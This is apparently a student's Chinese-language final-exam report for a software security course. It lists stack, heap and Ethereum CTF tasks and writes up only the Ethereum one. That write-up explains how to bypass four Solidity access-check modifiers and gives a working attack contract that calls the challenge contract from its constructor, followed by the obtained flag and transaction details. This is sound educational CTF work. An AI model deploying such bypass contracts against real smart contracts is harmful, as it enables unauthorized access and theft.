

# Final
> 林子昕 3220103784

## 01 - stack final (30 pts)

**题目说明：**

本题需要通过ret2shellcode来进行利用

远程环境位于: IP: `8.154.20.109`, PORT: `10601`。

**分值说明 (`30 pts`) :**


- 成功获取 canary 内容 (**10 pts**)
- 成功泄漏栈地址 (**10 pts**)
- 成功跳转到 shellcode 并获取 shell，执行 flag.exe 获取 flag (**10 pts**)

## 02 - heap final (30 pts) + (20 pts bonus)

**题目说明：**

如在 lab-03 作业中提及的，不同的场景、不同的应用都可能会使用不同的堆管理器，glibc 使用的 ptmalloc 仅仅是作为安全研究人员常接触的一款。

那么，如果漏洞发生在堆管理器中呢？本次作业题实现了一个简单的堆 tinyheap，请通过逆向分析，并找到 libtiny.so 中存在的漏洞，完成该堆题的利用。

远程环境位于 IP: `8.154.20.109`, PORT: `10602`

> 注：program.c 的代码基本等同于同 lab-03 中的代码

**分值说明 (`30 pts` + `20 pts bonus`)：**


- 通过逆向的方式找到堆管理器中存在的问题并描述在报告中 (**15 pts**)
- 借助 lab-03 中的技巧，完成漏洞利用的主要primitive/原语 (**15 pts**)
- 完成弹 shell，执行 flag.exe 取得 flag (**20 pts bonus**)

## 03 - ethereum final (40 pts) + (30 pts bonus)

**题目说明：**

同 lab-04 中的步骤（同样是 holesky 测试链），通过 `nc 8.154.20.109 10603` 访问题目接口，并获取题目源码，根据要求完成题目。

> 你可能需要自行通过搜索学习 solidity 的 modifier、unchecked 等你可能未知的语法；并学习 msg.sender 和 tx.origin 的具体含义；extcodesize 的含义和该限制的绕过方法；再通过阅读代码来完成本题。
>
> 如果你对题目合约本身有疑惑，请先自行搜索、学习、解决，如果还是不懂，请再来询问助教。

**分值说明 (`40 pts` + `30 pts bonus`)：**

- 完成 4 个 modifier的绕过，编写利用代码，四个 modifier 分别占 10 分。(**40 pts**) 
    - 注：如果无法完成最终绕过，在报告中体现 各个 modifier 的绕过思路，每个 modifier 给 5 分。
- 完成最终的合约攻击并拿到 flag，并在实验报告中描述你的思路、攻击方法，粘贴你的目标合约地址、flag、攻击合约源码即可拿到全部分数。（**30 pts bonus**）
### 题目合约分析：`Final` 合约

该合约通过使用多个 `modifier` 来对函数 `play` 的调用进行条件检查。我们将逐个分析 `modifier` 的功能及其如何影响函数的执行。

#### 1. `modifier mod1()`
```solidity
modifier mod1() {
    require(msg.sender != tx.origin);
    _;
}
```

- 功能：这个 `modifier` 检查调用者的地址是否与交易发起者地址不同。
  - `msg.sender` 是当前直接调用合约的地址。
  - `tx.origin` 是最初发起交易的地址。对于一个直接从外部账户（EOA）发起的交易，`msg.sender` 和 `tx.origin` 是相同的；而对于通过合约调用的交易，`msg.sender` 是合约的地址，`tx.origin` 仍然是最初的外部账户地址。
  
- 条件：要求 `msg.sender != tx.origin`，即调用者必须是一个合约而不是外部账户。因此，必须通过合约间接调用目标合约，才能绕过这个检查。

#### 2. `modifier mod2()`
```solidity
modifier mod2() {
    uint x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

- 功能：使用 Solidity 的内联汇编 (`assembly`) 来获取调用者的代码大小。`extcodesize(caller())` 返回调用者地址上部署的代码的字节数。如果调用者是合约，`extcodesize` 将返回一个大于零的值；如果调用者是外部账户（EOA），它返回零。
  
- 条件：要求调用者的代码大小为零。

#### 3. `modifier mod3(bytes8 _key)`
```solidity
modifier mod3(bytes8 _key) {
    unchecked {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1);
    }
    _;
}
```

- 功能：这个 `modifier` 对 `_key` 和 `msg.sender` 的 `keccak256` 哈希值做了 XOR 运算并要求结果为 `0xFFFFFFFFFFFFFFFF`，即 64 位的最大值。
  
  具体来说：
  - `keccak256(abi.encodePacked(msg.sender))` 计算了 `msg.sender` 的哈希值。
  - `bytes8()` 将哈希值的前 8 字节取出并转换为 `uint64`。
  - `_key` 是通过攻击合约提供的一个外部参数。
  - 如果 `uint64(keccak256(msg.sender)) ^ uint64(_key) == uint64(0) - 1` 成立，则 `require` 会通过，允许继续执行。

- 绕过：可以通过计算 `msg.sender` 的哈希值，然后推算出 `_key`

#### 4. `modifier mod4(uint256 _guess)`
```solidity
modifier mod4(uint256 _guess) {
    bytes32 entropy1 = blockhash(block.number);
    bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
    bytes32 entropy3 = keccak256(abi.encodePacked(tx.origin));
    bytes32 target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3));
    bytes32 guess = keccak256(abi.encodePacked(_guess));
    require(target == guess);
    _;
}
```

- 功能：这个 `modifier` 检查 `_guess` 是否正确。`_guess` 必须与计算的 `target` 匹配。
  - `blockhash(block.number)` 获取当前区块的哈希。
  - `keccak256(abi.encodePacked(msg.sender))` 和 `keccak256(abi.encodePacked(tx.origin))` 分别计算 `msg.sender` 和 `tx.origin` 的哈希值。
  - `target` 是通过 XOR 操作将上述三个值组合后再次哈希得到的。
  - `_guess` 是通过攻击合约传入的参数，其哈希值必须与 `target` 匹配。

- 绕过：攻击合约可以利用区块哈希（`blockhash(block.number)`）和合约信息（`msg.sender` 和 `tx.origin`）计算出正确的 `_guess` 值。


### 总结与绕过策略

1. 绕过 `mod1`：通过攻击合约的方式进行间接调用。攻击合约的 `msg.sender` 和 `tx.origin` 会不同，满足 `msg.sender != tx.origin` 的条件。
2. 绕过 `mod2`：攻击合约调用目标合约时，由外部账户发起，因此 `extcodesize` 返回 0，满足条件。
3. 绕过 `mod3`：计算 `msg.sender` 的哈希值并推算出 `_key`。`_key` 的计算是通过 `msg.sender` 的哈希值与 `0xFFFFFFFFFFFFFFFF` 进行异或得到的。
4. 绕过 `mod4`：攻击合约可以使用当前区块的哈希值以及合约信息来计算正确的 `_guess`。

### 攻击合约设计

由于 mod2 要求调用者的代码大小必须为0，所以我将攻击代码都放在构造函数中。
- 计算目标合约需要的 `_key` 和 `_guess`。
- 调用目标合约的 `play` 函数，绕过所有的 `modifier`。

```sol
interface IFinal {
    function play(bytes8 key, uint256 guess) external returns (bool);
}

contract Attack {
    address public targetAddress;

    constructor(address _target) {
        targetAddress = _target;
        bytes8 k = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        
        bytes32 e1 = blockhash(block.number);
        bytes32 e2 = keccak256(abi.encodePacked(address(this)));
        bytes32 e3 = keccak256(abi.encodePacked(tx.origin));
        uint256 g = uint256(e1 ^ e2 ^ e3);
        IFinal(targetAddress).play(k, g);
    }
}
```

得到 flag：`ssec2024{H0Pe_you_H@VE_eNjOyed_SSEC_Eth_pAR7|21810b6b}`



- token：`v4.local.Uq3RzcfErDfdCmOcxwAtd8k8HVl_uelr07ONhPjpNPIQJvufUqMnd5DJI7tw6M4sZPToy7lm7q28JRJh1CfiMPLTWhEPq87AsE_PzZoydBtixcartLpkutRgqfPzgkeenvOSXlEvlqs5BjkJid1D8t0WNDlZ4cJ3WNcSKjUGjh1uWw`
- SendFlag TX: `0xb1c5a9caeaef862f2433f5fcfc20a446215c7dffeceabc9e19c3dd5d5a6a979a`
- target contract: `0x50288237BdEdb88c67Db31a49A96B6ebA588DD4B`
